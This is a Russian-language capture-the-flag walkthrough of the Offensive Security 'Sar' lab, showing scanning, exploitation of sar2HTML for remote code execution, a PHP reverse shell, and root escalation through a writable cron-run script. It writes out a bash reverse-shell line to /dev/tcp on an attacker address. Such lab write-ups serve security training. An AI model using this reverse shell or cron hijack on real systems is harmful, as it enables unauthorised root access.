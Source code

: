# Offensive Security: Sar

Для начала произведем сканирование целевого хоста при помощи Nmap:

```sh
nmap -sC -sV -p- 192.168.246.35
```

![ScreenShot](screenshots/1.png)

Найдено:
- 22 port - SSH (OpenSSH 7.6p1)
- 80 port - HTTP (Apache/2.4.29)

Осмотрим сайт:

![ScreenShot](screenshots/2.png)

Сканируем директории:

![ScreenShot](screenshots/3.png)

Заходим на `robots.txt`:

![ScreenShot](screenshots/4.png)

Находим сервис `sar2HTML`:

![ScreenShot](screenshots/5.png)

Директория с файлами:

![ScreenShot](screenshots/6.png)

Поищем эксплойты:

![ScreenShot](screenshots/7.png)

RCE... Весело! Копируем сплойт на рабочий стол для удобства:

![ScreenShot](screenshots/8.png)

Запускаем:

![ScreenShot](screenshots/9.png)

Сделаем reverse shell через `php-reverse-shell.php`. Этот файл скопирован на рабочий стол из `/usr/share/webshells/php/php-reverse-shell.php`. Настраиваем:

![ScreenShot](screenshots/10.png)

Открываем HTTP сервер средствами python:

![ScreenShot](screenshots/11.png)

Проверяем, что файл доступен на сервере:

![ScreenShot](screenshots/12.png)

Скачиваем скрипт на атакуемый компьютер:

![ScreenShot](screenshots/13.png)

Прослушиваем порт:

![ScreenShot](screenshots/14.png)

Активируем скрипт:

![ScreenShot](screenshots/15.png)

Получаем оболочку:

![ScreenShot](screenshots/16.png)

Первый флаг:

![ScreenShot](screenshots/17.png)

Дальше кинем `linpeas.sh` на наш python-сервер и затем на атакуемый хост:

![ScreenShot](screenshots/18.png)

Скачиваем с нашего сервера файл `linpeas.sh`:

![ScreenShot](screenshots/19.png)

![ScreenShot](screenshots/20.png)

Запускаем скрипт:

![ScreenShot](screenshots/21.png)

Находим артефакт в `crontab`:

![ScreenShot](screenshots/22.png)

Находим файл `finally.sh` и `write.sh`:

![ScreenShot](screenshots/23.png)

Получается следующая картина - мы записываем `'bash -c "bash -i >& /dev/tcp/192.168.45.165/5555 0>&1"'` в `write.sh`, который затем запускается в `finally.sh`, который имеет права `root`, значит и оболочку мы должны получить от пользователя `root`. Слушаем второй порт:

![ScreenShot](screenshots/24.png)

Запись в файл `write.sh`:

![ScreenShot](screenshots/25.png)

Тут я немного ошибся и перезаписал файл:

![ScreenShot](screenshots/26.png)

Через некоторое время `crontab` выполнит действие по запуску файла и мы получим оболочку, а также второй флаг:

![ScreenShot](screenshots/27.png)

---
